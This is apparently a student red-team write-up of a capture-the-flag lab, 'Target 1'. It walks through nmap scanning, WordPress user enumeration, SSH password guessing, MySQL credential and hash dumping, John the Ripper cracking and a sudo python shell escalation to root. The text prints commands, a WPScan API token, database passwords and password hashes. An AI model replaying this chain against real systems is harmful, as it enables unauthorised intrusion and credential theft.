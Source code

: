 # Red Team: Summary of Operations

## Table of Contents

**Target 1**

- Exposed Services
- Critical Vulnerabilities
- Exploitation



### Exposed Services

Nmap scan results for **Target 1**  revealed the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

![](Images/nmap-192.168.1.110.png)



This scan identifies the services below as potential points of entry:
- **Target 1**
  
  - `Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4`
  
  - `Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))`
  
  - `Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)`
  
  - `Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X`
  
  - `Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X`
  
    

The following vulnerabilities were identified on **Target 1**:
- **Target 1**
  - Commands:	
    - `nmap -sV --script=vulners -v 192.168.1.110 `
    - `nmap -v --script vuln 192.168.1.110`
  - See all identified vulnerabilities [here](Resources/raw.bash), the document provides links to the description of the vulnerabilities and their severity. 

**Notable Vulnerabilities**

- User Enumeration (WordPress site)
- Weak User Password
- Unsalted User Password Hash (WordPress database)
- Misconfiguration of User Privileges/Privilege Escalation

**Respective CVE`s**

- [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
- [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
- [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://hackerone.com/reports/791893)
- [CVE-2017-7494 Samba NetBIOS](https://www.samba.org/samba/security/CVE-2017-7494.html)
- [CVE-2016-10033 (Remote Code Execution Vulnerability in PHPMailer)](https://nvd.nist.gov/vuln/detail/CVE-2016-10033)



### Exploitation

**The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:**

**Target 1**

**Flag 1**: `{b9bbcb33e11b80be795c4e844862482d}` & **Flag 2**: `{fc3fd58dcdad9ab23faca6e9a36e581c}`

- **Exploit Used**
  - Enumerated WordPress site Users with WPScan
  - command used: `wpscan --api-token Y5qIPUHXfZzgm6ng6LEWs59CCzhDzsTg1C9xwoRlF0s --url http://192.168.1.110/wordpress -eu`
  - Enumerating the WordPress site gave us the usernames `michael` and  `steven` which we used to gain access to the webserver. 

![](Images/wpscan-eu-command-1.png)

![](Images/wpscan-eu-command-2.png)

![](Images/users.png)



**Next we tried to get a user shell by using SSH, we picked Michael`s account and guessed his Password.**

- Command used:  `ssh michael@192.168.1.110`
- Password: We tried with his name `michael` (it worked!)

![](Images/ssh-michael.png)

- Changing to root directory and launching a search for the flags.
  - Command used:  `cd /` 
  - Command used: `find -name flag* |& grep -v find`

![](Images/grep-flag.png)

- **Flag 2** was discovered. And we changed directories to the location we found it in.
  - Command used: `cd /var/www`

<img src="Images/flag-2.png" style="zoom:120%;" />

- While in the www dictionary we ran another grep command to check for flags in the "html" directory.
  - Command used: `grep -RE flag html`

![](Images/flag1.png)





**Flag 3**: `{afc01ab56b50591e7dccf93122770cd2}` & **Flag 4**: `{715dea6c055b9fe3337544932f2941ce}`

**Next we searched for the MySQL Database password and found the `wp-config.php` file.**

- Command used: `cd /var/www/html/wordpress/`
- Command used: `cat wp-config,php`

![](Images/wp-config-1.png)

![](Images/wp-config-2.png)

**The cat command revealed following information:**

- **DB_NAME:** `wordpress`
- **DB_USER:** `root`
- **DB_PASSWORD:** `R@v3nSecurity`

![](Images/wp-small.png)



**Next step was to login into the MySQL Database and search for Flags and WordPress user password hashes.**

- Command used: `mysql -u root -p` input password `R@v3nSecurity`
- Command used: `show databases;`
- Command used: `use wordpress;`
- Command used: `show tables;`
- Command used: `select wp_posts;`
- Command used: `select * from wp_users;` where we found the WordPress user password hashes
- Command used: `select * from wp_posts;` where we found **Flag 3** and **Flag 4**

![](Images/mysql-1.png)

![](Images/mysql-4.png)

![](Images/flag-3-and-4.png)



| ID   | user_login | user_pass                          | user_nicename | user_email                                    | user_url | user_registered     | user_activation_key | user_status | display_name   |
| ---- | ---------- | ---------------------------------- | ------------- | --------------------------------------------- | -------- | ------------------- | ------------------- | ----------- | -------------- |
| 1    | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | [michael@raven.org](mailto:michael@raven.org) |          | 2018-08-12 22:49:12 |                     | 0           | michael        |
| 2    | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | [steven@raven.org](mailto:steven@raven.org)   |          | 2018-08-12 23:31:16 |                     | 0           | Steven Seagull |



**The next step was to crack Steven`s password hash to gain access to his account, we did so with the use of John the Ripper John the Ripper**

We created a file called `wp_hashes.txt` on the Kali machine in the `/root` directory and ran the program.

- Command used: `john wp_hashes.txt`

![](Images/john-execution.png)

- Command used: `john --show wp_hashes.txt`

![](Images/z.png)



**With Stevens password we secured a user shell, checked for sudo privileges and escalated them via a python script. We then discovered a file which revealed `Flag 4`**

- Command used: `ssh steven@192.168.1.110` ; Password: `pink84`
- Command used: `sudo -l`
- Command used: `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`

![](Images/ssh-steven.png)

![](Images/steven-sudo-privs.png)

![](Images/steven-root-privs.png)

- Command used: `cd /root ` (to search for the flag)
- Command used: `ls & cat flag4.txt`

![](Images/flag-4.png)



----



